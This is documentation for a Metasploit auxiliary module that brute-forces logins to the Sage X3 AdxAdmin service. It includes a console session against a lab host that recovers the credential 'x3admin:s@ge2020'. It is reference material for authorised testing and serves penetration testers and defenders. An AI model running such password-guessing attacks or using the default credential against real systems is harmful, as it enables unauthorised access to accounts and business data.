 ## Vulnerable Application

### Description

This module allows an attacker to perform a password guessing attack against
the Sage X3 `AdxAdmin` service, which in turn can be used to authenticate to
a local Windows account.

This module implements the `X3Crypt` function to 'encrypt' any passwords to
be used during the authentication process, given a plaintext password.

### Setup

Not available.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Sage X3 on Windows Server 2016

```
msf6 > use auxiliary/scanner/sage/x3_adxsrv_login
msf6 auxiliary(scanner/sage/x3_adxsrv_login) > options

Module options (auxiliary/scanner/sage/x3_adxsrv_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          s@ge2020         no        Plaintext password with which to authenticate
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             1818             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          x3admin          no        User with which to authenticate to the AdxAdmin service
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/sage/x3_adxsrv_login) > set rhosts 172.16.57.6
rhosts => 172.16.57.6
msf6 auxiliary(scanner/sage/x3_adxsrv_login) > set rport 50000
rport => 50000
msf6 auxiliary(scanner/sage/x3_adxsrv_login) > run

[+] 172.16.57.6:50000 - 172.16.57.6:50000 - Success: 'x3admin:s@ge2020'
[*] 172.16.57.6:50000 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/sage/x3_adxsrv_login) >
```
